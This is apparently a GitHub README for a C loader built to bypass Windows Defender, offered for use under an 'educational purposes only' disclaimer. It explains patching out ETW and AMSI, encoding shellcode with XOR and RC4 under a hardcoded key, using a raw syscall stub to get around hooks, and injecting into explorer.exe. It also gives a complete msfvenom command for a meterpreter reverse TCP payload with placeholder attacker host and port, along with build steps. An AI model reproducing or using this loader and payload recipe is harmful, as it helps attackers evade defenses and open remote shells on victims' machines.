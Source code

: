 # WinDefender Bypass

> **Disclaimer:** This project is provided **for educational purposes only**.  
> Use it at your own risk. The author assumes **no responsibility** for any misuse or damages caused by this code. By using it, you agree that it is intended solely to study how common payloads can evade active defenses and to improve defensive techniques.

---

## Overview

**Winefender Bypass** demonstrates a multi-layered evasion loader in C that:

1. **Disables telemetry**  
   - Patches `EtwEventWrite` in `ntdll.dll`  
   - Patches `AmsiScanBuffer` in `amsi.dll`  

2. **Decodes a polymorphic shellcode**  
   - **10 iterations** of **`x64/xor_dynamic`**  
   - Followed by **RC4 encryption** with key `"UltraSecreta2025!"`  
   - Decryption happens **in-place at runtime**  

3. **Uses a manual syscall stub**  
   - Builds its own `NtWriteVirtualMemory` stub (`mov r10, rcx; mov eax,0x3A; syscall; ret`)  
   - Bypasses user‑mode API hooks  

4. **Injects and executes** in a **trusted process** (`explorer.exe`)  
   - Enumerates processes via `Toolhelp32Snapshot`  
   - Opens a handle to `explorer.exe` (`OpenProcess`)  
   - Allocates RWX memory in that process (`VirtualAllocEx`)  
   - Writes decrypted shellcode via the syscall stub  
   - Launches a remote thread (`CreateRemoteThread`)  

By moving the entire staging and execution into **Explorer**—a Microsoft‑signed process—the loader evades common heuristics and Windows Defender’s staged‑HTTP and in‑memory detections.

---

## Files

- **`loader.c`** – the full C source of the injector/loader (missing hardcoded encrypted shellcode) 
- **`README.md`** – this file  

---

## Building

You’ll need a Windows environment with a MinGW/MSYS2 toolchain:

```bash
# Generate the shellcode using Msfvenom
msfvenom \
  -p windows/x64/meterpreter_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT \
  -a x64 --platform windows \
  -e x64/xor_dynamic -i 10 \
  --encrypt rc4 --encrypt-key UltraSecreta2025! \
  -b "\x00\x0a\x0d" \
  -f c \
  --var-name encrypted > shellcode.txt

# Compile loader.c
gcc loader.c -o loader.exe -lkernel32 -luser32
```

